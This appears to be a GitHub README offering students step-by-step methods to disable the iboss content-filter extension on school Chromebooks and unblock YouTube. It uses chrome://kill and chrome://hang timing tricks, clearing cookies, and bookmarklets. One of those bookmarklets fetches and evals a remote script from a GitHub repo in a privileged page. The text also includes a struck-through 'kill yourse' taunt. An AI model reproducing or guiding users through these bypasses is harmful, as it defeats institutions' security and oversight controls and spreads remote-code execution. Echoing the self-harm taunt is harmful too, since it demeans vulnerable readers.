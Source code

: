 ## Tools for responsible students. If you do not have a brain, turn back now.
<br>
<details>
    
<summary><b>blow up iboss</b></summary>

0. READ THE WHOLE THING BEFORE ATTEMPTING!!! IF I GET ONE MORE STUPID EMAIL I SWEAR IM DELTEING THIS WHOLE PAGE!!!<sub>sysadmins you didnt hear that<sub>

1. Go to this page: `chrome-extension://kmffehbidlalibfeklaefnckpidbodff/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
If you go to [this page](https://www.google.com/search?q=chick+fil+a&rlz=1CASFJY_enUS1052&oq=proxy+fil+a&aqs=chrome.0.0i271j46i131i199i433i465i512j46i340i433i512l2j46i131i199i433i465i650j0i512j0i433i512j0i512jknives%20in%20ww10i271.1044j0j7&sourceid=chrome&ie=UTF-8&safe=active&ssui=on) and it loads, it worked!. You can close your tabs and the extension will be blown up successfully. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)
    
</details>

<details>

<summary><b>unblock youtube (EASY)</b>/summary>
0. READ THE WHOLE THING BEFORE ATTEMPTING!!! THIS IS DIFFERENT FROM THE ABOVE METHOD!!!

1. Go to this page: `chrome-extension://bjlelllmddmghonfckbpjafiamjhlkio/manifest.json`

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C).

3. While on the extension page (A), click the chrome://kill bookmark (B). The page should crash. MAKE SURE TO READ STEP 4 BEFORE DOING STEP 3.

4. INSTANTLY start spamming chrome://hang (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or ctrl+R). You should have reloaded within one or two seconds of killing the page. See timing here:
    
    <img width="522" alt="timing diagram" src="https://ltmeat.bypassi.com/img/line.png">
    <br>
    <img width="327" alt="timing diagram" src="https://ltmeat.bypassi.com/img/abc.gif">
    
5. Click on the lock or building icon
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

6. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

7. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

8. Go to youtube.com in a new tab.

If it loads, it worked!. Just don't close your tabs and the extension will be blown up successfully. If it stops working, redo steps 5-8. If it still doesn't work, close all your tabs and try again.


Note that the steps above are by no means the only way to perform the exploit. I'll add the first alternate set of instructions on May 11th for people affected by patches.
    
Need help? Go <b>~~kill yourse~~</b> email me [here](mailto:2027ramid16@moundsviewschools.org) or open an issue [here](https://github.com/Sreekar617/i-love-rice/issues/new) (you need a github account!)

</details>
<br>
<details>

<summary>blow up iboss method 2 (PATCHED!!!)</summary>

1. Bookmark any page
2. Copy the code below
```js
javascript:opener.eval(`
(async function () {
    eval((await (await fetch("https://raw.githubusercontent.com/Sreekar617/i-love-rice/main/cod.js")).text()));
})();`) && close();
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/byeswamp)
6. Click on "The Blue Hat Crew Is the Best!"
7. On the blank page that appears, click on the bookmark you created earlier.
8. Click on "iboss cloud enterprise"

</details>

  
<details>
  
  <summary>extension thingie (PATCHED!!!)</summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary>Unblock Youtube (PATCHED!!!)</summary>
 
1. Click on the lock
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231313548-5de4be10-b851-415e-b3f8-88d745479b0d.png">

2. Click on "Cookies and site data"
<img src="https://user-images.githubusercontent.com/115044820/231524166-9db656cc-1b8e-4572-b35f-04d75f477145.png" alt="Screenshot 2023-04-11 7.01.37 PM.png"/>

3. Delete all the cookies. NO COOKIES!!!
<img src="https://user-images.githubusercontent.com/115044820/231531249-8af4af81-068a-4cff-adac-bb9f918efd6c.png" alt="Screenshot 2023-04-12 11.27.26 AM.png"/>

4. Go to youtube.com in a new tab.

</details>


Update on Projects:


| Project  | ETA |
| ------------- | ------------- |
| Uboss V3 (Unblocking Method)  | June  |
| Tissue Box  (Unblocking Method)  | September |
| Francium (Unblockable Unblocker) | June |
| Gallium (Game Site) | June |
| Blue (Unblocker) | September |
| Gemnoid (Unblocker) | September |

quick disclaimer none of these above projects are made by me, but i will still be posting them here. you think i have that much patience to work on one project for six months?

<b>me when you star and share:</b>

<img width="404" alt="literally me" src="https://user-images.githubusercontent.com/115044820/235795472-18621a38-e169-4260-a1be-1b74e58044e2.png">


<sub>I do not condone any misuse of the tools included here. Use responsibly and at your own risk. Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.</sub>

